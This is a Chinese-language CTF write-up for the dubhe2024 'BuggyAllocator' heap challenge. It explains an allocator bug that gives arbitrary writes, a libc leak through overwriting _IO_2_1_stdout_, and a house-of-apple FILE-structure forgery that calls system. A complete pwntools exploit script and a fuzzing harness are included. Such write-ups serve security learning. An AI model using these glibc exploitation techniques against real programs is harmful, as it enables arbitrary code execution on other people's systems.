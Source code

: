 在堆题中遇到没有show()函数的情况，导致无法泄露地址。这时可以通过修改_IO_2_1_stdout_来强制程序输出一段内存，从而泄露需要的地址。

dubhe2024，xctf分站赛最后一场凄惨爆零，主看了这道题一整天，逆清楚了但找不到漏洞。~~事后来看当时就算找到洞了也不会这种泄露手法。~~

简单逆一下程序，结构体整理好，可以发现就是一般菜单题，但当size<=0x80，即fastsize时会使用自己写的堆管理器来管理。管理方式：一个个纯粹的单链表构成类fastbin结构，当该size的fastbin不足时会尝试往该fastbin中塞20个。首先尝试从预先malloc出来的topchunk到extopchunk这段空间中取20*size的空间，拿出来返回回去并往fastbin中塞19个；若取不到20个那么少取一些也行；若topchunk到extopchunk的空间连一个size都取不出来，则先将extopchunk到topchunk这段空间放入fastbin防止内存泄漏，随后先调整topchunk再进行分配。首先找比当前size大的fastbin，若存在，则取出该fastbin并将该chunk的头尾设为topchunk和extopchunk，再返回第一步尝试分配；若没有比当前chunk大的fastbin，就考虑malloc(40*size)作为topchunk和extopchunk，再返回第一步尝试分配。

程序漏洞在于fastbin没有对单链表结束的判断，也没有链表长度统计。所以当程序尝试往fastbin中填充20个chunk时，如果第20个chunk的fd处本来就有数据，那么链表就会被错误地延长。因此，先malloc一个大chunk，在第20个chunk的fd处写入特定的数据，即可实现任意地址分配堆块，实现任意写。

本文主要地址泄露手法主要参考了[这篇文章](https://blog.csdn.net/qq_41202237/article/details/113845320 "这篇文章")。
首先看一下IO_file的结构
```
0x0:'_flags',
0x8:'_IO_read_ptr',
0x10:'_IO_read_end',
0x18:'_IO_read_base',
0x20:'_IO_write_base',
0x28:'_IO_write_ptr',
0x30:'_IO_write_end',
0x38:'_IO_buf_base',
0x40:'_IO_buf_end',
0x48:'_IO_save_base',
0x50:'_IO_backup_base',
0x58:'_IO_save_end',
0x60:'_markers',
0x68:'_chain',
0x70:'_fileno',
0x74:'_flags2',
0x78:'_old_offset',
0x80:'_cur_column',
0x82:'_vtable_offset',
0x83:'_shortbuf',
0x88:'_lock',
0x90:'_offset',
0x98:'_codecvt',
0xa0:'_wide_data',
0xa8:'_freeres_list',
0xb0:'_freeres_buf',
0xb8:'__pad5',
0xc0:'_mode',
0xc4:'_unused2',
0xd8:'vtable'
```
通过gdb单步调试了解到，puts("ABCDEFGH")函数大致可以分为两步：
1.将"ABCDEFGH"一个个写到_IO_write_base和_IO_write_ptr申请的堆地址上，_IO_write_base和_IO_write_p分别指向buf的头和尾。
2.调用sys_write(1,_IO_write_base,_IO_write_ptr-_IO_write_base)
在这些过程中，_flags位用于指挥程序运行流程。看下来并没有什么神秘的部分~~，感觉一系列操作都挺多余的，也不知道为什么libc要这么封装（~~。
阅读上面那篇博客，我们可以得知：
1.设置_flags为0xfbad1800
2.设置_IO_write_base为泄露起始地址
3.设置_IO_write_ptr为泄露结束地址
随后再任意调用一下puts函数，即可完成泄露。

好了理论讲完了，回到题目看看，发现全程用的都是cout<<没有puts()，OvO。嘛不管了差不多的啦，cout<<肯定封装的更多所以应该会有效的吧。。
把堆块分配到stdout上，什么也别干啥也别动，再申请一个就能申请到_IO_2_1_stdout_了，这样修改：
```
fake_stdout = p64(0xfbad1800) + p64(0)
fake_stdout+= p64(0) + p64(0)
fake_stdout+= p64(0x4045d0) + p64(0x4046d0)
```
不用自作聪明把其他的什么_IO_read_ptr或者_IO_buf_base改到同一个什么可写地址，这样好像会让cout<<出错然后自己exit()。前面写0后面不管就可以了，程序做完一次cout就自动变回去了。
![image](https://github.com/Seg-Tree/seg-tree.github.io_1/blob/main/pwn/dubhe2024%20BuggyAllocator%3A%20arbitrary%20read%20by%20modifying%20_IO_2_1_stdout_/BuggyAllocator.png)
专门挑了个方便点的地方把libc和heap都搞出来，然后就泄露好了。

再就是打house of apple就行了。避免麻烦直接用system了，发现直接system("/bin/sh")或者system("sh")会导致进不去system，毕竟写"/bin/sh"的那里是_flags，不过前面加个空格就好了，但system(" sh")拿到的shell不知道为啥没法交互。最终system(" cat flag")拿了flag，还是没拿到shell。学了个py好看的语法糖：
```
IO_file = flat({
0x0: b"  sh",
0x28: b"\1",
0x68: p64(system),
0xa0: p64(fake_addr), # wide data
0xD8: p64(_IO_wfile_jumps), # vtable
0xe0: p64(fake_addr)
}, filler=b"\0")
```
伪造的IO_file完全可以申请一个大chunk放进去，不知道V&N战队为啥还把IO_file拆开到两个chunk里去，可能是做题到最后头晕忘了吧。
最后的最后，懒得搞堆风水了，把原来申请在_IO_2_1_stdout_的chunk释放了再申请回来，把_IO_2_1_stdout_的_chain改到伪造的IO_file处。最后随便输点啥退出即可，题目没有为难俺们。

此外这次比赛期间还试了一下fuzz，虽然没fuzz出洞来，但也算是初尝试了吧，这里记一些python语法和模板：
```
allocated = []
unallocat = [i for i in range(64)]
def fuzz(T):
    f = open("log.txt","w")
    for i in range(0,T):
        if((randint(0,1) or len(allocated)<2) and len(unallocat)>1):
            idxidx = randint(0, len(unallocat)-1)
            idx = unallocat[idxidx]
            allocated.append(idx)
            unallocat.pop(idxidx)
            siz = 0xa0*randint(1,0x20)
            f.write("add({},".format(idx) + "{})\n".format(siz))
            add(idx,siz,b"AAAAAAAA")
        else:
            idxidx = randint(0,len(allocated)-1)
            idx = allocated[idxidx]
            unallocat.append(idx)
            allocated.pop(idxidx)
            f.write("fre({})\n".format(idx))
            fre(idx)

try:
    fuzz(0x8000)
except EOFError:
    print("gg!")
```
exp：
```
from pwn import*
from struct import pack

p = process("./pwn")
libc = ELF("./libc.so.6")

def add(idx,siz,cot):
    p.sendlineafter("> ","1")
    p.sendlineafter(": ",str(idx))
    p.sendlineafter(": ",str(siz))
    p.sendafter(": ",cot)

def fre(idx):
    p.sendlineafter("> ","2")
    p.sendlineafter(": ",str(idx))

def exi():
    p.sendlineafter("> ","sb,you've been hacked!")

bss_H = 0x404900
stdout = 0x404040
payload = b'A'*(19*0x80) + p64(stdout)
add(0,0x2000,payload)
fre(0)
for i in range(20):
    add(i,0x80,"BBBBBBBB")

add(20,0x80,"\x80")
fake_stdout = p64(0xfbad1800) + p64(0)
fake_stdout+= p64(0) + p64(0)
fake_stdout+= p64(0x4045d0) + p64(0x4046d0)

add(21,0x80,fake_stdout)
p.recv(8)
heap_base = u64(p.recv(8))
p.recv(0x18)
_IO_2_1_stdout_ = u64(p.recv(8))
libc_base = _IO_2_1_stdout_ - libc.symbols["_IO_2_1_stdout_"]
print(hex(libc_base))
print(hex(heap_base))
system = libc_base + libc.symbols["system"]
_IO_wfile_jumps = libc_base + libc.symbols["_IO_wfile_jumps"]
fake_addr = heap_base + 0xa90
IO_file = flat({
0x0: b"  sh",
0x28: b"\1",
0x68: p64(system),
0xa0: p64(fake_addr), # wide data
0xD8: p64(_IO_wfile_jumps), # vtable
0xe0: p64(fake_addr)
}, filler=b"\0")
add(22,0x100,IO_file)

fre(21)
fake_stdout = p64(0xfbad1800) + p64(_IO_2_1_stdout_+131)
fake_stdout+= p64(_IO_2_1_stdout_+131) + p64(_IO_2_1_stdout_+131)
fake_stdout+= p64(_IO_2_1_stdout_+131) + p64(_IO_2_1_stdout_+131)
fake_stdout+= p64(_IO_2_1_stdout_+132) + p64(_IO_2_1_stdout_+131)
fake_stdout+= p64(_IO_2_1_stdout_+132) + p64(0)
fake_stdout+= p64(0) + p64(0)
fake_stdout+= p64(0) + p64(fake_addr)
add(21,0x80,fake_stdout)
exi()
p.interactive()
```
